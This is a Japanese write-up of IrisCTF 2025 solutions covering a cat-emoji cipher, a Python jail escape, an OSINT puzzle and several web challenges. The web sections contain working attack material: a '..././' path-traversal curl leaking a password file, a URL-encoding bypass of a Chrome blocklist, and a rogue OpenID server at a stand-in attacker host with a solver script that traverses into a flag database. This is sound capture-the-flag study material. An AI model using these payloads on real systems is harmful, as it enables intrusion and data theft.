

# IrisCTF 2025 Writeup

IrisCTF 2025（<https://ctftime.org/event/2503>）に参加しました。  
土, 04 1月 2025, 00:00 UTC — 月, 06 1月 2025, 00:00 UTC

2025年最初のCTFです！  
簡単な問題しか解けていないですが、久しぶりにWriteupを書いていきます。  

<!-- @import "[TOC]" {cmd="toc" depthFrom=2 depthTo=3 orderedList=false} -->

<!-- code_chunk_output -->

- [Cryptography](#cryptography)
  - [KittyCrypt](#kittycrypt)
- [Miscellanceous](#miscellanceous)
  - [Cobra's Den](#cobras-den)
- [OSINT](#osint)
  - [Sleuths and Sweets](#sleuths-and-sweets)
- [Web](#web)
  - [Password Manager](#password-manager)
  - [Political](#political)
  - [Bad Todo](#bad-todo)
  - [webwebhookhook](#webwebhookhook)

<!-- /code_chunk_output -->

## Cryptography

### KittyCrypt

50 Points / 200 Solves (12.7% of users)

- 問題コード: `main.go`

```go
package main

import (
	"crypto/rand"
	"encoding/hex"
	"encoding/json"
	"fmt"
	"math/big"
	"os"
	"strings"
)

var CharSet = map[rune]string{
	'0': "🐱", '1': "🐈", '2': "😸", '3': "😹",
	'4': "😺", '5': "😻", '6': "😼", '7': "😽",
	'8': "😾", '9': "😿", 'A': "🙀", 'B': "🐱‍👤",
	'C': "🐱‍🏍", 'D': "🐱‍💻", 'E': "🐱‍👓", 'F': "🐱‍🚀",
}

func catify(input string, keys []int) string {
	var keyedText string
	var result string

	for i, char := range input {
		keyedText += string(rune(int(char) + keys[i]))
	}
	fmt.Printf("I2Keyed: %s\n", keyedText)

	hexEncoded := strings.ToUpper(hex.EncodeToString([]byte(keyedText)))
	fmt.Printf("K2Hex: %s\n", hexEncoded)

	for _, rune := range hexEncoded {
		result += CharSet[rune]
	}

	return result
}

func savePair(name, input, output string) {
	inputFile, err := os.OpenFile(name+"_input.txt", os.O_RDWR|os.O_CREATE|os.O_TRUNC, 0644)
	if err != nil {
		fmt.Println(err)
		return
	}
	defer inputFile.Close()

	outputFile, err := os.OpenFile(name+"_output.txt", os.O_RDWR|os.O_CREATE|os.O_TRUNC, 0644)
	if err != nil {
		fmt.Println(err)
		return
	}
	defer outputFile.Close()

	if _, err := inputFile.Write([]byte(input)); err != nil {
		fmt.Println(err)
		return
	}
	if _, err := outputFile.Write([]byte(output)); err != nil {
		fmt.Println(err)
		return
	}
}

func getKeys(length int) []int {
	var keys = []int{}
	keyFileName := fmt.Sprintf("keys_%d.json", length)

	file, err := os.Open(keyFileName)
	if err != nil {

		for i := 0; i < length; i++ {
			num, _ := rand.Int(rand.Reader, big.NewInt(60000))

			keys = append(keys, int(num.Int64()))
		}

		keyFile, err := os.OpenFile(keyFileName, os.O_RDWR|os.O_CREATE|os.O_TRUNC, 0644)
		if err != nil {
			fmt.Println(err)
			return []int{}
		}
		defer keyFile.Close()

		encoded, _ := json.Marshal(keys)
		keyFile.Write(encoded)

		return keys
	}

	json.NewDecoder(file).Decode(&keys)

	return keys
}

func main() {
	input := "You fools! You will never get my catnip!!!!!!!"

	keys := getKeys(len(input))

	encoded := catify(input, keys)

	savePair("example", input, encoded)
}
```

ランダムな数値を一文字毎に足して、その結果を16進数に変換した後に特定の文字（猫の絵文字）に変換している。  

```go
for i, char := range input {
  keyedText += string(rune(int(char) + keys[i]))
}
```

毎回ランダムな数値を足しているため、本来であれば元に戻せなさそうだが、今回はサンプルの入出力があり、かつ同様のキーを使っていると推測できるので逆算ができる。

```go
package main

import (
	"encoding/hex"
	"fmt"
	"strings"
)

var CharSet1 = map[rune]string{
	'0': "🐱", '1': "🐈", '2': "😸", '3': "😹",
	'4': "😺", '5': "😻", '6': "😼", '7': "😽",
	'8': "😾", '9': "😿", 'A': "🙀",
}
var CharSet2 = map[rune]string{
	'B': "🐱‍👤",
	'C': "🐱‍🏍", 'D': "🐱‍💻", 'E': "🐱‍👓", 'F': "🐱‍🚀",
}

func toHex(input string) string {
	result := input
	for key, value := range CharSet2 {
		result = strings.Replace(result, value, string(key), -1)
	}
	for key, value := range CharSet1 {
		result = strings.Replace(result, value, string(key), -1)
	}
	return result
}

func getKeys() []int {
	example_input := "You fools! You will never get my catnip!!!!!!!"
	example_output := "🐱‍💻😸😿😼🐱‍👓😺😾😿🙀🐱‍💻🐱‍👓😺😿😹😿🐱‍💻🐱‍👓🐱🐱‍👤😹😿😺🐱‍👓😹🙀😿😾🐱‍🏍🐱‍👓😹😾🐱‍🚀🐱‍👤😾🐱‍💻🐱‍👓😿😽🐱‍👓😺😾🐱‍👤🙀😻🐱‍👓😸🙀😼🐱‍👤🐈🐱‍👓😺🐱‍👤😼😿😾🐱‍👓🐈😿😽🙀🐱‍🚀🐱‍👓😹😾😹🐱‍👤🐱‍👤🐱‍👓😹🙀🐱🐱‍👤😾🐱‍👓🐱🙀😽😿😻🐱‍👓😹🐱‍👤🐱🐱‍👤🐱‍👤🐱‍👓🐈😾😽😿🐱‍💻🐱‍👓🐈🙀🐱‍👓😿🐱‍👤🐱‍👓😹🐱‍👤🐱‍👤😾🐱‍🏍🐱‍👓🐈🐱‍👤🐱😿🐱‍👤🐱‍👓😸😾😿🐱‍👤😾🐱‍💻🐱‍🏍😿🙀🐱‍👓😸😾🙀🙀🐱🐱‍👓😸🐱‍👤🐱‍👓🙀🐱‍👓🐱‍👓🐱🙀🙀😾😺🐱‍👓😺🙀😽😿😸🐱‍👓😸🐱‍👤😾🙀🐈🐱‍👓😺🙀😼🙀😼🐱‍👓😺😿😿😿😿🐱‍🏍😿😾🐱‍👓🐱‍👓😺😿😽😿🐱‍🏍🐱‍👓🐈😾🐈😿😹🐱‍💻😸🐱‍👤😹🐱‍👓😺😿🐱‍👓🙀🐱🐱‍👓😺🙀🐱‍👤😾🐱‍🏍🐱‍👓😹🐱‍👤😸🙀🐱‍🏍🐱‍👓😹🐱‍👤😼🐱‍👤😾🐱‍👓🐱🙀🐈🐱‍👤🐈🐱‍👓😺😿🐱‍👤🐱‍👤😽🐱‍👓😸🐱‍👤🐈🐱‍👤🐱‍🚀🐱‍👓😺🐱‍👤😽🙀😿🐱‍👓😺😿🐱‍💻🙀😿🐱‍👓😺😾🐱‍👤😿🐱‍🚀🐱‍👓😸🙀🐱‍🏍🐱‍👤😻🐱‍👓😸🐱‍👤🐱‍💻🐱‍👤😾🐱‍👓😹😿😻🙀🐱‍🚀🐱‍👓😹😿😿😿😿"
	example_output_hex := toHex(example_output)
	keys := []int{}
	data, _ := hex.DecodeString(example_output_hex)
	data_arr := []rune(string(data))
	fmt.Println(data_arr)
	fmt.Println(len(data_arr))
	fmt.Println(len(example_input))
	for i := range data_arr {
		keys = append(keys, int(data_arr[i])-int(example_input[i]))
	}
	return keys
}

func main() {
	flag_output := "🐱‍💻😸🙀😼🐱‍👓😺😾😿🐱‍👤🐱🐱‍👓😺😿😹😿🐈🐱‍👓🐱🐱‍👤😺🙀😽🐱‍👓😹🙀😿😾😿🐱‍👓😹😾🐱‍🚀🐱‍👤🐱‍💻🐱‍💻🐱‍👓😾🐱‍👓🐱‍👓😺😾🐱‍👤🐱‍👤😺🐱‍👓😸🙀😼🐱‍👤🐈🐱‍👓😺🐱‍👤😼🙀😽🐱‍👓🐈😿😾🐱‍👤🐱‍🏍🐱‍👓😹😾😹😿😻🐱‍👓😹🙀🐱😾🐱🐱‍👓🐱🙀😼😿🐈🐱‍👓😹🐱‍👤😸😾😾🐱‍👓🐈😾😼😿😿🐱‍👓🐈🙀🐱‍👓🙀😻🐱‍👓😹🐱‍👤🙀🐱‍👤🐱‍🚀🐱‍👓🐈🐱‍👤🐱😿🐈🐱‍👓😸😾🙀🐱‍👤🐈🐱‍💻🐱‍👤🙀😹🐱‍👓😸😾😿🙀🐱‍👓🐱‍👓😸🐱‍👤🐱‍💻🙀🐱‍💻🐱‍👓🐱🙀😿🐱‍👤🐱‍👓🐱‍👓😺🙀😼😿😺🐱‍👓😸🐱‍👤😿🐱‍👤😹🐱‍👓😺🙀😻🐱‍👤😸🐱‍👓😺😿😿🙀😸🐱‍🏍😾😿🐈🐱‍👓😺😿😾😿🐱‍👤🐱‍👓🐈😾🐈😿🐱‍💻🐱‍💻😸🙀😸🐱‍👓😺😿🐱‍👓🐱‍👤😺🐱‍👓😺🙀🙀🙀🐱🐱‍👓😹🐱‍👤😸🙀🙀🐱‍👓😹🐱‍👤😼🐱‍👤🐱‍💻🐱‍👓🐱🙀🐱🐱‍👤😹🐱‍👓😺😿🐱‍🏍😾😹🐱‍👓😸🐱‍👤🐈🙀🐱‍👓🐱‍👓😺🐱‍👤😽🐱‍👤🐱‍👤🐱‍👓😺😿🐱‍🚀😾🐱🐱‍👓😺😾🐱‍🏍🙀🐱‍👓🐱‍👓😸🙀🐱‍💻😾😽🐱‍👓😸🐱‍👤🐱‍👓🐱‍👤🙀🐱‍👓😹😿😼😾😻🐱‍👓😹😿🙀🐱‍👤😻"
	flag_output_hex := toHex(flag_output)
	keys := getKeys()
	sec, _ := hex.DecodeString(flag_output_hex)
	secData := []rune(string(sec))
	for i, _ := range keys {
		fmt.Print(string(rune(int(secData[i]) - keys[i])))
	}
}
```

```bash
$ go run solver.go
irisctf{s0m371m3s_bY735_4r3n7_wh47_y0u_3xp3c7}
```

## Miscellanceous

### Cobra's Den

50 Points / 116 Solves (7.4% of users)

PythonのJail問。

```py
# flag stored at 'flag' in current dir

import builtins

all_builtins = dir(builtins)
filtered_builtins = {name: getattr(builtins, name) for name in all_builtins if len(name) <= 4}
filtered_builtins.update({'print': print})

whitelist = "<ph[(cobras.den)]+~"
security_check = lambda s: any(c not in whitelist for c in s) or len(s) > 1115 or s.count('.') > 1

print('Good luck!')
while True:
    cmd = input("Input: ")
    if security_check(cmd):
        print("No dice!")
    else:
        try:
            eval(f"print({cmd})", {"__builtins__": filtered_builtins})
        except SyntaxError as e:
            print(f"Syntax error: {e}")
        except Exception as e:
            print(f"An error occurred: {e}")
```

`<ph[(cobras.den)]+~`の文字しか使えないが、使える関数なので何とかなりそう。

```py
abs
chr
hash
open
ord
repr
```

`.`が一度しか使えないので、`open`を使って`/flag`を読む方向で考える。

```py
open("<何とかしてcat /flag>").read()
```

数値や文字列は以下のようにすれば作れる。

```py
# 数値
abs(~(hash(()))+(hash(()))) # 1

# 文字列
repr(abs) # <built-in function abs>
repr(abs)[1] # b
repr(abs)[abs(~(hash(()))+(hash(())))] # b

chr(ord('b')+1) # c
chr(ord(repr(abs)[abs(~(hash(()))+(hash(())))])+abs(~(hash(()))+(hash(())))) # c
```

後は作るだけ。

```py
open(chr(ord(repr(abs)[abs(~(hash(()))+(hash(()))+~(hash(()))+(hash(()))+~(hash(()))+(hash(()))+~(hash(()))+(hash(()))+~(hash(()))+(hash(()))+~(hash(()))+(hash(())))])+abs(~(hash(()))+(hash(()))+~(hash(()))+(hash(()))))+repr(abs)[abs(~(hash(()))+(hash(()))+~(hash(()))+(hash(()))+~(hash(()))+(hash(()))+~(hash(()))+(hash(()))+~(hash(()))+(hash(()))+~(hash(()))+(hash(()))+~(hash(()))+(hash(()))+~(hash(()))+(hash(()))+~(hash(()))+(hash(()))+~(hash(()))+(hash(())))]+repr(abs)[abs(~(hash(()))+(hash(()))+~(hash(()))+(hash(()))+~(hash(()))+(hash(()))+~(hash(()))+(hash(())))]+repr(abs)[~(hash(()))+(hash(()))+~(hash(()))+(hash(()))+~(hash(()))+(hash(()))+~(hash(()))+(hash(()))]+chr(ord(repr(abs)[abs(~(hash(()))+(hash(()))+~(hash(()))+(hash(()))+~(hash(()))+(hash(()))+~(hash(()))+(hash(()))+~(hash(()))+(hash(()))+~(hash(()))+(hash(()))+~(hash(()))+(hash(()))+~(hash(()))+(hash(()))+~(hash(()))+(hash(()))+~(hash(()))+(hash(())))])+abs(~(hash(()))+(hash(()))))).read()
```

他の人の回答を見ると、`1`を作るのは`abs(~(()<()))`の方が良さそうだったし、`-1`でどうにかする方法もありそう。

## OSINT

### Sleuths and Sweets

50 Points / 232 Solves (14.7% of users)

以下のクレープを買った場所を特定する問題。  
フラグ形式は`irisctf{3_Chome_12_8_Azabu_Minato}`。


`いちごヨーグルトスペシャル`で検索すると、店名はすぐに`マリオンクレープ`であることがわかる。  
2枚目の画像をよく見ると赤い看板から`〇本銀行`やファミリーマートが近くにあることもわかる。

後は地道に調べると、以下の場所にある店舗だった。

- 渋谷モディ店: <https://www.marion.co.jp/store/tokyo/>

```text
irisctf{1_Chome_21_3_Jinnan_Shibuya}
```

## Web

### Password Manager

50 Points / 357 Solves (22.7% of users)

タイトルにあるようにパスワードマネージャーの機能がある。  
ソースコードを確認すると、ユーザデータ初期化時にローカルファイルの`./user.json`からデータを読み込んでいる。  
`./user.json`にアクセスができればユーザとしてログインできそう。

以下関連しそうな部分のソースコード。

```go
<SNIP>
var PathReplacer = strings.NewReplacer(
 "../", "",
)
<SNIP>
func pages(w http.ResponseWriter, r *http.Request) {
 // You. Shall. Not. Path traverse!
 path := PathReplacer.Replace(r.URL.Path)

 if path == "/" {
  homepage(w, r)
  return
 }

 if path == "/login" {
  login(w, r)
  return
 }

 if path == "/getpasswords" {
  getpasswords(w, r)
  return
 }

 fullPath := "./pages" + path

 if _, err := os.Stat(fullPath); os.IsNotExist(err) {
  notfound(w, r)
  return
 }

 http.ServeFile(w, r, fullPath)
}
```

`../`を置き換える処理が入っているが、一回しか置き換わらないため、以下のようにすると`./user.json`にアクセスできる。

```bash
$ curl --path-as-is 'https://password-manager-web.chal.irisc.tf/..././users.json'
{
    "skat": "rf=easy-its+just&spicysines123!@"
}
```

後はログインするだけ。

### Political

50 Points / 152 Solves (9.7% of users)

`/token`でトークンを生成できるが、そのトークンを管理者に`/giveflag`させることでフラグを取得できる。

- クライアント側コード: `chal.py`

```py
from flask import Flask, request, send_file
import secrets

app = Flask(__name__)
FLAG = "irisctf{testflag}"
ADMIN = "redacted"

valid_tokens = {}

@app.route("/")
def index():
    return send_file("index.html")

@app.route("/giveflag")
def hello_world():
    print(request.args)
    if "token" not in request.args or "admin" not in request.cookies:
        return "Who are you?"

    token = request.args["token"]
    admin = request.cookies["admin"]
    if token not in valid_tokens or admin != ADMIN:
        return "Why are you?"

    valid_tokens[token] = True
    return "GG"

@app.route("/token")
def tok():
    token = secrets.token_hex(16)
    valid_tokens[token] = False
    return token

@app.route("/redeem", methods=["POST"])
def redeem():
    if "token" not in request.form:
        return "Give me token"

    token = request.form["token"]
    if token not in valid_tokens or valid_tokens[token] != True:
        return "Nice try."

    return FLAG
```

- 管理者側コード: `bot.js`

```js
<SNIP>
async function load_url(socket, data) {
  let url = data.toString().trim();
  console.log(`checking url: ${url}`);
  // replace with your server as needed
  if (!url.startsWith('http://localhost:1337/') && !url.startsWith('https://localhost:1337/')) {
    socket.state = 'ERROR';
    socket.write('Invalid URL (must start with http:// or https://).\n');
    socket.destroy();
    return;
  }
  socket.state = 'LOADED';
  let cookie = JSON.parse(fs.readFileSync('/home/user/cookie'));

  const context = await browser.createBrowserContext();
  const page = await context.newPage();
  await page.setJavaScriptEnabled(false);
  await page.setCookie(cookie);
  socket.write(`Loading page ${url}.\n`);
  setTimeout(()=>{
    try {
      context.close();
      socket.write('timeout\n');
      socket.destroy();
    } catch (err) {
      console.log(`err: ${err}`);
    }
  }, BOT_TIMEOUT);
  await page.goto(url);
}
<SNIP>
```

普通に考えると、以下のURLを管理者（bot）に送信すれば良さそうだが、Chromeのセキュリティポリシーによってこのままだとトークンが有効にならない。

```text
https://political-web.chal.irisc.tf/giveflag?token=3f5cd205a5b90ee2727d09dc5bb24561
```

- `poclicy.json`

```json
{
 "URLBlocklist": ["*/giveflag", "*?token=*"]
}
```

Dockerファイルがあったが、ローカルで動かなかったので、仕方なくWindowsのChromeで試してみた。  
Widowsの場合は、レジストリを編集する必要があるので、あまりやりたくは無かったが、以下のファイルを作成してインポートする。

- `text.reg`

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Google\Chrome]

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Google\Chrome\URLBlocklist]
"1"="*/giveflag"
"2"="*?token=*"
```

結果として以下のようにURLエンコードすれば通った。

```text
https://political-web.chal.irisc.tf/%67iveflag?%74oken=3f5cd205a5b90ee2727d09dc5bb24561
```

### Bad Todo

247 Points / 75 Solves (4.8% of users)

OpenID Connectに関する問題ぽい。  



任意のIssuer URLとClient IDを入力することができる。  
Flagは`{process.env.STORAGE_LOCATION}/flag`というdbファイルに格納される。

- `.env`

```text
PORT=8080
STORAGE_LOCATION=/opt/bad-todo/storage
SESSION_DB=file:///opt/bad-todo/session.db
BASE=https://example.com
FLAG=Super secret :)
```

- `app.js`

```js
<SNIP>
app.get("/", asyncHandler(async (req, res) => {
    if (!req.cookies.session) {
        return res.render("home.ejs", {
            base: process.env.BASE
        });
    }

    const userInfo = await getUser(req.cookies.session);
    if (!userInfo) {
        return res.render("home.ejs", {
            base: process.env.BASE
        });
    }

    const metadata = JSON.parse(userInfo.userMetadata);
    let name = "";
    for (let key of displayNamePreference) {
        if (metadata[key]) {
            name = metadata[key];
            break;
        }
    }

    await initializeUserTodos(userInfo.idpUrl, userInfo.userId);
    return res.render("todos.ejs", {
        name,
        todos: await getUserTodos(userInfo.idpUrl, userInfo.userId)
    });
}));

app.post("/start", asyncHandler(async (req, res) => {
    let response = null;
    try {
        response = await safeJson(req.body.issuer + "/.well-known/openid-configuration");
    } catch(e) {
        res.sendStatus(400);
        res.write("Invalid OpenID configuration ;_;");
        res.end();
        return;
    }
    if (response && response.issuer && response.authorization_endpoint && response.token_endpoint && response.userinfo_endpoint) {
        const session = await newSession(req.body.issuer, req.body.client_id);
        console.log(session);

        const search = new URLSearchParams();
        search.append("client_id", req.body.client_id);
        search.append("redirect_uri", process.env.BASE + "/auth_redirect");
        search.append("scope", "openid");
        search.append("response_type", "code");
        search.append("state", session);

        
        res.setHeader("Set-Cookie", `session=${session}; HttpOnly; Max-Age=3600; SameSite=Lax; Secure`);
        res.setHeader("Location", `${response.authorization_endpoint}?${search.toString()}`)
        res.sendStatus(302);
        
    } else {
        res.sendStatus(400);
        res.write("Invalid OpenID configuration ;_;");
        res.end();
    }
}));

app.post("/add", asyncHandler(async (req, res) => {
    if (!req.cookies.session) {
        return res.end("No auth");
    }

    const userInfo = await getUser(req.cookies.session);
    if (!userInfo) {
        return res.end("No auth");
    }

    if (!req.body.todo_name || req.body.todo_name > 256) return res.end("Todo too long");

    await addUserTodo(userInfo.idpUrl, userInfo.userId, req.body.todo_name);
    res.redirect("/");
}));
<SNIP>
app.get("/auth_redirect", asyncHandler(async (req, res) => {
    if (!req.cookies.session) return res.end("No session");
    if (req.cookies.session !== req.query.state) return res.end("Bad state");
    if (req.query.error) {
        return res.end("identity provider gave us an error.");
    }
    
    const sessionDetails = await lookupSession(req.cookies.session);
    const response = await safeJson(sessionDetails.idpUrl + "/.well-known/openid-configuration");
    if (!response.token_endpoint) return res.end("No token endpoint");
    if (!response.userinfo_endpoint) return res.end("No user info endpoint");

    const search = new URLSearchParams();
    search.append("grant_type", "authorization_code");
    search.append("code", req.query.code);
    search.append("redirect_uri", process.env.BASE + "/auth_redirect");
    search.append("client_id", sessionDetails.clientId);
    
    const tokenResponse = await safeJson(response.token_endpoint, {
        method: "POST",
        body: search.toString(),
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"
        }
    });

    if (!tokenResponse || !tokenResponse.access_token || !tokenResponse.token_type) return res.end("Bad token response");

    const userInfo = await safeJson(response.userinfo_endpoint, {
        headers: {
            "Authorization": `${tokenResponse.token_type} ${tokenResponse.access_token}`
        }
    });

    if (!userInfo || !userInfo.sub) return res.end("user has no sub");

    await successfulLogin(req.cookies.session, userInfo);
    res.setHeader("Location", `/`)
    res.sendStatus(302);
}));
```

- `session_store.js`

```js
import { createClient } from "@libsql/client";

const client = createClient({
    url: process.env.SESSION_DB
});

export async function initSessionStore() {
    await client.execute(`CREATE TABLE IF NOT EXISTS sessions(
        id TEXT PRIMARY KEY DEFAULT (lower(hex(randomblob(32)))),
        idpUrl TEXT NOT NULL,
        clientId TEXT NOT NULL,
        userId TEXT,
        userMetadata TEXT
    )`)
}

export async function newSession(idp, clientId) {
    const sessionId = (await client.execute("INSERT INTO sessions (idpUrl, clientId) VALUES(?, ?) RETURNING id", [idp, clientId])).rows[0].id;
    return sessionId;
}

export async function lookupSession(session) {
    const { rows } = await client.execute("SELECT * FROM sessions WHERE id = ?", [session]);
    if (rows.length !== 1) throw new Error("Invalid session");

    return rows[0];
}

export async function successfulLogin(session, metadata) {
    await client.execute("UPDATE sessions SET userId = ?, userMetadata = ? WHERE id = ?", [metadata.sub, JSON.stringify(metadata), session]);
}

export async function getUser(session) {
    const { rows } = await client.execute("SELECT * FROM sessions WHERE id = ?", [session]);
    if (rows.length !== 1) return false;

    if (!rows[0].userId) return false;

    return rows[0];
}
```

- `storage.js`

```js
<SNIP>
export function sanitizePath(base) {
    const normalized = path.normalize(path.join(process.env.STORAGE_LOCATION, base));
    const relative = path.relative(process.env.STORAGE_LOCATION, normalized);
    if (relative.includes("..")) throw new Error("Path insane");

    const parent = path.dirname(normalized);
    mkdirSync(parent, { recursive: true });
    
    return normalized;
}

export function getStoragePath(idp, sub) {
    const first2 = sub.substring(0, 2);
    const rest = sub.substring(2);

    const path = `${sha256sum(idp)}/${encodeURIComponent(first2)}/${encodeURIComponent(rest)}`;
    return sanitizePath(path);
}
<SNIP>
export async function getUserTodos(idp, sub) {
    const client = createClient({
        url: `file://${getStoragePath(idp, sub)}`
    });

    const rows = (await client.execute("SELECT *, rowid FROM todos")).rows;
    await client.close();
    return rows;
}
<SNIP>
```

getUserTodos関数で呼び出されるdbファイルを`file://opt/bad-todo/storage/flag`に指定できればフラグを取得できそう。  
また、ソースコードを追っていくと、`idp`にはissuerのURL、`sub`にはsubが入ることがわかるため、攻撃者が用意した値をそのまま使うことができる。

後は、`file://${getStoragePath(idp, sub)}`が`file:///opt/bad-todo/storage/flag`となるように組み立てる方法を考える。

getStoragePath関数では、`sha256sum(idp)`でissuerのURLをハッシュ化しているため、`idp`は気にしないで良さそう。  
`sub`は先頭2文字目で分割され、それぞれ`first2`、`rest`に格納される。

後はsanitizePath関数による正規化処理を見てみる。

```js
> encodeURIComponent("../../flag")
'..%2F..%2Fflag'
> base = "aaaa/aa/..%2F..%2Fflag"
'aaaa/aa/..%2F..%2Fflag'
> location = "/opt/bad-todo/storage"
'/opt/bad-todo/storage'
> normalized = path.normalize(path.join(location,base))
'/opt/bad-todo/storage/aaaa/aa/..%2F..%2Fflag'
> relative = path.relative(location,normalized)
'aaaa/aa/..%2F..%2Fflag'
> relative.includes("..")
true
```

`rest`に`../../flag`を入れるとダメそうだが、`first2`に`..`を入れるとパストラバーサルできそうなことがわかる。

```js
> base = "aaaa/../flag"
'aaaa/../flag'
> location = "/opt/bad-todo/storage"
'/opt/bad-todo/storage'
> normalized = path.normalize(path.join(location,base))
'/opt/bad-todo/storage/flag'
> relative = path.relative(location,normalized)
'flag'
> relative.includes("..")
false
> path.dirname(normalized)
'/opt/bad-todo/storage'
```

攻撃文字列が入るように攻撃用サーバを用意する。

- `server.js`

```js
import express from "express";

const URL = process.env.ATTACKER_URL || "https://attacker.example.com";
const app = express();

app.get("/.well-known/openid-configuration", (_, res) => {
  res.json({
    issuer: URL,
    authorization_endpoint: `${URL}/auth`,
    token_endpoint: `${URL}/token`,
    userinfo_endpoint: `${URL}/userinfo`,
  });
});

app.post("/token", (_, res) => {
  res.json({
    access_token: "aaaaaaaaaaaaaaaaaaaaaaaaaaaa",
    token_type: "Bearer",
  });
});

app.get("/userinfo", (_, res) => {
  res.json({ sub: "..flag" });
});

app.listen(8888);
```

以下のようなスクリプトでフラグを取得できた。

- `solver.js`

```js
import axios from "axios";
import { wrapper } from "axios-cookiejar-support";
import { CookieJar } from "tough-cookie";

const TARGET_URL = process.env.TARGET_URL || "https://target.example.com";
const ATTACKER_URL = process.env.ATTACKER_URL || "https://attacker.example.com";

const client = wrapper(
  axios.create({
    jar: new CookieJar(),
    maxRedirects: 0,
    validateStatus: (status) => status >= 200 && status <= 302,
  })
);

async function start() {
  const data = new URLSearchParams({
    issuer: ATTACKER_URL,
    client_id: "test",
  }).toString();
  const res = await client.post(`${TARGET_URL}/start`, data);
  return res.headers["set-cookie"][0].split(";")[0].split("=")[1];
}

async function redirect(state) {
  const res = await client.get(`${TARGET_URL}/auth_redirect?state=${state}`);
  return res.data;
}

async function top() {
  const res = await client.get(`${TARGET_URL}/`);
  return res.data;
}

async function main() {
  const state = await start();
  await redirect(state);
  const data = await top();
  console.log(data.match(/irisctf\{[^}]+\}/)[0]);
}

try {
  await main();
} catch (e) {
  console.log(e);
}
```

### webwebhookhook

488 Points / 16 Solves (1.0% of users)

解けなかった問題。  
なぜか[Bad Todo](#bad-todo)ではDNS rebindingの可能性を考えていたのにこの問題では考慮から外れていた。

後で解きなおす予定。
